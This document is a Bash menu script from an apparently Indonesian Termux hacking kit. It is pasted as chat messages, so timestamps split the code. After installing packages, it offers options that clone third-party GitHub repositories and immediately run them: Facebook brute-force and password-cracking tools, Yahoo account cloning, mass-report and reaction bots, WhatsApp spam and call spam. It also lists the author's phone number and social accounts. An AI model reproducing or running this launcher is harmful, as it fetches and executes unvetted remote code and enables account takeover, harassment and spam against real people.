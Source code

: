 # SET4N
[24/7 16:14] MltrCyber: #!/bin/bash clear bi='\033[34;1m' #BIRU i='\033[32;1m' #HIJAU pur='\033[35;1m' #PURPLE cy='\033[36;1m' #CYAN me='\033[31;1m' #MERAH pu='\033[37;1m' #PUTIH ku='\033[33;1m' #KUNING echo echo $i"Selamat datang di tools MltrCyber" python2 ketik.py echo sleep 6 clear echo echo $red" Tool akan di install dalam waktu 5 detik saja" echo $red" harap sabar menunggu boss :)" sleep 1 echo '''\a \033[34;1m               _ \033[34;1m              / | \033[34;1m              | | \033[34;1m              | |         MltrCyber \033[34;1m             _|_|_ ''' sleep 1 apt update &amp;&amp; apt upgrade apt install nano apt install git                                                                         pkg install python python2 vim figlet curl clear echo echo echo $red" Tool akan di install dalam waktu 5 detik saja" echo $red" harap sabar menunggu boss :)" sleep 1                                                                                 echo '''\a                                                                              \033[32;1m              ____ \033[32;1m             |___ \ \033[32;1m               __) | \033[32;1m              / __/ \033[32;1m             |_____| ''' sleep 1 apt install php pip2 install mechanize                                                                  pip2 install lolcat pip2 install requests [24/7 16:15] MltrCyber: clear echo echo echo $red" Tool akan di install dalam waktu 5 detik saja" echo $red" harap sabar menunggu boss :)" sleep 1 echo '''\a                                                                              \033[35;1m             _____                                                            \033[35;1m            |___ / \033[35;1m              |_ \ \033[35;1m             ___) | \033[35;1m            |____/ ''' sleep 1 clear echo echo                                                                                    echo $red" Tool akan di install dalam waktu 5 detik" echo $red" MltrCyber " sleep 1 echo '''\a                                                                              \033[33;1m             _  _ \033[33;1m            | || | \033[33;1m            | || |_ \033[33;1m            |__   _| \033[33;1m               |_| ''' sleep 1 clear echo echo echo $red" Tool akan di install dalam waktu 5 detik saja" echo $red" harap sabar menunggu boss :)" sleep 1 echo '''\a \033[36;1m              ____ \033[36;1m             | ___| \033[36;1m             |___ \ \033[36;1m              ___) | \033[36;1m             |____/ ''' sleep 1 clear echo echo $cy"==================="$pur" ===================" echo $me"█"$bi"  Author  :  MltrCyber         "$me"        █" echo $ku"█"$bi"  WhatsApp:  081362319526"$ku"            █" echo $bi"█"$bi"  Gmail   :  MltrCyber.com"$bi"    █" echo $i"█"$bi"  Youtube :  Persekuharyono"$i"             █" [24/7 16:15] MltrCyber: echo $me"==================="$ku" ===================" echo echo $i"-----› Menu BRUTEPORCE NEWS:" echo $cy"⟨"$pu"1"$cy"⟩"$bi" -» Report FB" echo $cy"⟨"$pu"2"$cy"⟩"$bi" -» Brute Force" echo $cy"⟨"$pu"3"$cy"⟩"$bi" -» Brute Force Facebook Cracker" echo $cy"⟨"$pu"4"$cy"⟩"$bi" -» Mbf" echo $cy"⟨"$pu"5"$cy"⟩"$bi" -» Cloning Yahoo" echo $cy"⟨"$pu"6"$cy"⟩"$bi" -» OsiF" echo $cy"⟨"$pu"7"$cy"⟩"$bi" -» Auto password multi bruteforce" echo $cy"⟨"$pu"8"$cy"⟩"$bi" -» Dark-FB" echo $cy"⟨"$pu"9"$cy"⟩"$bi" -» Bot Reaction Facebook" echo $cy"⟨"$pu"10"$cy"⟩"$bi"-» Profileguard Facebook" echo $cy"⟨"$pu"11"$cy"⟩"$bi"-» Spam WhatsApp" echo $cy"⟨"$pu"12"$cy"⟩"$bi"-» Spam Call" echo $cy"⟨"$pu"13"$cy"⟩"$bi"-» Download Mp3" echo $cy"⟨"$pu"14"$cy"⟩"$bi"-» Youtube-dl" echo $cy"⟨"$pu"15"$cy"⟩"$bi"-» Visualizer" echo $cy"⟨"$pu"16"$cy"⟩"$bi"-» Keluar" echo echo $pu"╭─["$i"Pilih sesuai ke inginan Anda"$pu"]" read -p"╰─> : " pil  if [ $pil = 1 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/IlayTamvan/Report.git cd Report unzip Report.zip                                                                        python2 Report.py                                                                       fi  if [ $pil = 2 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/3.git                                           cd 3 python2 brute.py fi                                                                                         if [ $pil = 3 ] then [24/7 16:16] MltrCyber: clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/7.git cd 7 python2 crack.py                                                                        fi                                                                                       if [ $pil = 4 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/1.git cd 1                                                                                    python2 MBF.py fi  if [ $pil = 5 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/2.git cd 2 pip2 install requests mechanize pip2 install requirements python2 boss.py fi  if [ $pil = 6 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/8.git cd 8 pip2 install -r requirements.txt python2 osif.py fi  if [ $pil = 7 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 [24/7 16:16] MltrCyber: pkg update &amp;&amp; pkg upgrade pkg install git pkg install python2 pip2 install mechanize pip2 install requests pip2 install bs4 git clone https://github.com/Edi-nasa47/autombf.git cd autombf python2 mayat.py fi  if [ $pil = 8 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 pkg update &amp;&amp; pkg upgrade pkg install git pkg install python2 pkg install curl pip2 install requests pip2 install mechnize git clone https://github.com/Edi-nasa47/DARK-FB.git cd DARK-FB python2 dark.py fi  if [ $pil = 9 ] then clear figlet -f slant "Lest G O ."|lolcat                                                     sleep 1 git clone https://github.com/Edi-nasa47/5.git cd 5 python2 robot.py fi  if [ $pil = 10 ] then                                                                                    clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/13.git cd 13 [24/7 16:16] MltrCyber: php profile.php fi  if [ $pil = 11 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1                                                                                 git clone https://github.com/Edi-nasa47/12.git cd 12 php whatsapp.php fi  if [ $pil = 12 ] then clear                                                                                   figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/4.git cd 4 php SpamCall.php fi  if [ $pil = 13 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/Mp3_Downloader.git cd Mp3_Downloader pip install -r requirements.txt python Mp3_Downloader.py fi  if [ $pil = 14 ] then clear figlet -f slant "Lest G O ."|lolcat sleep 1 git clone https://github.com/Edi-nasa47/super.git mv super $HOME cd $HOME/super chmod +x bash bash news fi [24/7 16:17] MltrCyber: if [ $pil = 15 ] then figlet -f slant "Lest G O ."| lolcat sleep 1 git clone https://github.com/Edi-nasa47/Visualizer.git mv Visualizer $HOME cd $HOME/Visualizer chmod +x MEIZU chmod +x Yes bash MEIZU bash Yes fi  if [ $pil = 16 ] then clear figlet -f slant "E X I T"|Ulolcat sleep 2 echo $i"SEMANGAT PAGI..." echo $i"Terima Kasih Akang sudah mengunakan Tools ini" sleep 2 echo $i"Silahkan Akang di pakai semoga bermanfaat" sleep 2 echo $i"Buat Akang²" sleep 2 echo $i"Bila Akang belum mengerti Akang Bisa Nanya" echo $i"Melalui Via:" sleep 2 echo $ku"Facebook :"$pur" Haryono Kudadiri"                                             echo $ku"YouTube  :"$pur" MltrCyber" echo $ku"WhatsApp :"$pur" 081362319526" sleep 2 echo $i"dan jangan lupa "$cy" LIKE SHARE AND SUBSCRIBE" sleep 2 echo $i"Video Channel "$cy" persekuharyono " sleep 2 echo $i"Agar tambah semangat Upload Video²"                                             sleep 2 echo $i"terbaru menarik dari saya" echo $i"silahkan Aktifkan juga ya Akang Tombol Loncengnya" sleep 2 echo $i"Agar dapat pemberitahuan Video²" [24/7 16:17] MltrCyber: echo $i"selanjutnya dari saya OKE" sleep 2 echo echo $cy"Thanks FOR WATCHING....!!!" exit f
